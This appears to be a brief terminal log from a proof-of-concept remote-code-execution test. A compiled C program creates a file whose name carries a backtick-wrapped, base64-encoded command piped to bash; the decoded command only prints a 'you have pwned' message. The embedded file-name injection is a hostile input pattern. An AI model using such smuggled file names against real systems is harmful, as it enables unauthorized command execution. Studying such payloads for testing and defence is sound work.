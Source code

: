 # createfiles

└─$ gcc createfile.c -o createfile
                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/rce]
└─$ ./createfile
[*] Target filename: poc.txt`{echo,ZWNobyAieW91IGhhdmUgcHduZWQgWytdISAi}|{base64,-d}|bash`
[*] Calling syscall(SYS_openat)...
[+] File created successfully! fd=3
[+] Wrote 9 bytes to file.
[+] File closed successfully.
[*] Done.


